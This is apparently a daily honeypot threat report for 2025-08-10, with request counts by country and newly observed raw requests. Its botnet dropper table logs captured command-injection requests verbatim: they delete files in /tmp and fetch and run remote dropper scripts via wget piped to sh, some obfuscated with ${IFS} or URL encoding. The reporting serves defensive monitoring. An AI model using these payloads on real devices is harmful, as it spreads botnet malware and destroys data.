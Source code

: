 ```yaml
---
title: "Report: 2025-08-10 "
date: 2025-08-10
desciption: "Report: 2025-08-10" 
tags: [repport, daily]
---
```



# Daily Report: 2025-08-10 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 12 stage 1 IP address(es), linked to 5 dropper URL(s).  

There are 5 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 424 requests were recorded during the day, originating from 12 different countries, with a peak of 104 requests coming from US.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|------------------|--------------------|

## botnet_dropper_behaviour
| remote_addr    | request                                                                                                                 |
|:---------------|:------------------------------------------------------------------------------------------------------------------------|
| 8.219.170.195  | GET /shell?cd+/tmp;rm+-rf+*;wget+ 213.209.150.159/jaws;sh+/tmp/jaws HTTP/1.1                                            |
| 197.51.195.49  | GET /shell?cd+/tmp;rm+-rf+*;wget+ 213.209.150.159/jaws;sh+/tmp/jaws HTTP/1.1                                            |
| 8.222.172.218  | GET /shell?cd+/tmp;rm+-rf+*;wget+ 213.209.150.159/jaws;sh+/tmp/jaws HTTP/1.1                                            |
| 41.236.201.175 | GET /shell?cd+/tmp;rm+-rf+*;wget+ 213.209.150.159/jaws;sh+/tmp/jaws HTTP/1.1                                            |
| 139.224.67.94  | GET /shell?cd+/tmp;rm+-rf+*;wget+ 213.209.150.159/jaws;sh+/tmp/jaws HTTP/1.1                                            |
| 41.237.204.130 | GET /shell?cd+/tmp;rm+-rf+*;wget+ 213.209.150.159/jaws;sh+/tmp/jaws HTTP/1.1                                            |
| 45.156.87.165  | GET /cgi-bin/rtpd.cgi?wget&-qO-&http://74.194.191.52/rondo.abs.sh|sh;echo& HTTP/1.1                                     |
| 197.58.104.247 | GET /shell?cd+/tmp;rm+-rf+*;wget+ 213.209.150.159/jaws;sh+/tmp/jaws HTTP/1.1                                            |
| 8.219.81.129   | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                    |
| 45.156.87.165  | GET /cgi-bin/;wget${IFS}-qO-${IFS}http://74.194.191.52/rondo.sbx.sh|sh&echo${IFS} HTTP/1.0                              |
| 45.156.87.165  | GET /login.cgi?cli=multilingual%20show%27%3Bwget%20-qO-%20http%3A%2F%2F74.194.191.52%2Frondo.zta.sh%7Csh%27%24 HTTP/1.1 |
| 197.39.97.192  | GET /shell?cd+/tmp;rm+-rf+*;wget+ 213.209.150.159/jaws;sh+/tmp/jaws HTTP/1.1                                            |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                     |
|----:|----------------------:|:------------------------------------------------------------|
|  82 |                     1 | \x00\x0E8\xA2\x90                                           |
| 165 |                     1 | \x03\x00\x00*%\xE0\x00\x00\x00\x00\x00Cookie: mstshash=Test |
| 168 |                     1 | \x00\x0E\x08bd\xDA\xDE\xCB\x98\xAD\x18\x00\x00\x00\x00\x00  |
| 169 |                     1 | \x00\x0E8\xDD\xED\xF2\x94\xDEKDd\x00\x00\x00\x00\x00        |
| 170 |                     1 | \x00\x0E8bd\xDA\xDE\xCB\x98\xAD\x18\x00\x00\x00\x00\x00     |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   104 | US                 |
|  1 |                    59 | GB                 |
|  2 |                    53 | SG                 |
|  3 |                    47 | HK                 |
|  4 |                    20 | NL                 |
|  5 |                    18 | FR                 |
|  6 |                    14 | SC                 |
|  7 |                    12 | AU                 |
|  8 |                    12 | CH                 |
|  9 |                    11 | PL                 |
| 10 |                    10 | DE                 |
| 11 |                     9 | ZA                 |
| 12 |                     9 | BG                 |
| 13 |                     8 | UA                 |
| 14 |                     6 | CN                 |
| 15 |                     5 | EG                 |
| 16 |                     4 | HU                 |
| 17 |                     4 | CA                 |
| 18 |                     3 | BE                 |
| 19 |                     3 | IR                 |
| 20 |                     2 | TR                 |
| 21 |                     2 | LT                 |
| 22 |                     1 | KR                 |
| 23 |                     1 | MZ                 |
| 24 |                     1 | ES                 |
| 25 |                     1 | JP                 |
| 26 |                     1 | RO                 |
| 27 |                     1 | TW                 |
| 28 |                     1 | MD                 |
| 29 |                     1 | MX                 |
| 30 |                     1 | VN                 |
